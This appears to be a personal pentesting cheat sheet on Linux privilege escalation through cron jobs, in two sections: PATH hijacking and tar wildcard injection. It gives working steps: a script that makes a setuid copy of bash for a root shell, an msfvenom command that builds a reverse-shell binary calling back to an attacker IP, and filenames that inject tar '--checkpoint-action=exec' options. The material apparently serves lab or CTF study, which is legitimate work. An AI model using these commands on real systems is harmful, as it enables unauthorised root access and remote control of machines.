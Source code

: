
</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### Cron exploit - PATH

</div>


- check the crontabs
- If a script exist with no direct path like
`* * * * * root overwrite.sh`
- We can check if we have permissions to create an imitate script in some dir of the PATH
`PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`
- If it's possible, create a script and make exec,
- one options is make a copy of the root bash
```shell
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```

- Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
	`/tmp/rootbash -p`


</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### Cron exploit - Wildcards

</div>


- Check the scripts with tar, 7z, rsync, etc.
- Search a `*` like
```shell
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
- GTFOBins, Note that tar has command line options that let you **run** other **commands** as part of a checkpoint feature.
- Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`
- Put it to `/home/user`
- Make it executable:
`chmod +x /home/user/shell.elf`
- Create these two files in /home/user:
Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.
```sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
- Listen on attacker machine and wait for a cron run
